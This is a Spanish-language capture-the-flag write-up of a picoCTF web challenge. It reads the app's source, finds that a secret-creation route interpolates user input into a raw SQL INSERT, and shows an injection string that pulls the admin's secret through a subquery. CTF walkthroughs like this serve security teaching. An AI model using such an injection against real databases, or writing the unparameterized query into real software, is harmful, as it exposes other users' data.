



# Secret Box (picoCTF 2026)

> Web Explotation, Medium

*This secret box is designed to conceal your secrets.*

*It's perfectly secure—only you can see what's inside.*

*Or can you? Try uncovering the admin's secret.*

## Explorando la página

La página es tal cual la describe el ejercicio: al ingresar vemos una vista con las opciones de login y signup, y una vez tenemos una cuenta vamos a la vista principal de la app, donde se muestran los "secretos" que guardamos.
Desde ahí podemos hacer click en "Log Out" o "Create New Secret" (que redirige a otra vista).

Crear un secreto:



Vista principal:



## Explorando el código

El reto también nos deja descargar el código del proyecto, que tiene esta estructura:

```
$ tree
.
├── app
│   ├── Dockerfile
│   └── src
│       ├── db.js
│       ├── handler.js
│       ├── server.js
│       └── views
│           ├── create_secret.ejs
│           ├── index.ejs
│           ├── login.ejs
│           ├── my_secrets.ejs
│           └── signup.ejs
├── db
│   ├── Dockerfile
│   └── initdb.sql
└── docker-compose.yml

5 directories, 12 files
```

Front, back y base de datos. Si vamos derecho al `initdb.sql` a ver el schema, vemos el primer error de la app:

```
CREATE EXTENSION IF NOT EXISTS pgcrypto;

CREATE TABLE users (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
	username text NOT NULL,
    password text NOT NULL,
    created_at timestamptz NOT NULL DEFAULT now()
);

CREATE TABLE tokens (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
    user_id text NOT NULL REFERENCES users(id),
    created_at timestamptz NOT NULL DEFAULT now(),
	expired_at timestamptz NOT NULL DEFAULT now() + interval '1 days'
);

CREATE TABLE secrets (
    id text PRIMARY KEY DEFAULT gen_random_uuid(),
    owner_id text NOT NULL REFERENCES users(id),
    content text NOT NULL,
    created_at timestamptz NOT NULL DEFAULT now()
);


INSERT INTO users(id, username, password) VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'admin', 'fake_password');
INSERT INTO secrets(owner_id, content) VALUES ('e2a66f7d-2ce6-4861-b4aa-be8e069601cb', 'academy{fake_flag}');
```

**Tenemos el ID de la cuenta admin**, aunque no tenemos ni la contraseña ni el secreto, ya que el backend los actualiza en la función *initdb* de `db.js`:

```
await db('users')
    .where({ id: 'e2a66f7d-2ce6-4861-b4aa-be8e069601cb' })
    .update({ password: process.env.USERPASSWORD });

await db('secrets')
    .where({ owner_id: 'e2a66f7d-2ce6-4861-b4aa-be8e069601cb' })
    .update({ content: process.env.FLAG });
```

## Qué podemos hacer con la ID?

Si seguimos vichando el código, en particular `server.js`, vamos a encontrar muy fácilmente el segundo error, que es que la app usa queries de SQL "crudas".
Por ejemplo en **/login**:

```
const userResult = await db.raw(
	`SELECT * FROM users WHERE username = ? AND password = ? LIMIT 1`, 
	[username, password]
);
```

Esta en particular no es explotable porque está parametrizada, pero esta en **/secrets/create**?

```
const query = await db.raw(
	`INSERT INTO secrets(owner_id, content) VALUES ('${userId}', '${content}')` 
);
```

Y con esto está pronto, porque SQL nos deja anidar queries.

Si vamos a *Create New Secret* e ingresamos algo como:

```
pica' || (SELECT content FROM secrets WHERE owner_id = 'e2a66f7d-2ce6-4861-b4aa-be8e069601cb') || '!
```

*(llevó varios intentos peleando con los ' y los ) hasta que vi que postgresql te deja concatenar strings con ||)*

Obtenemos la flag:


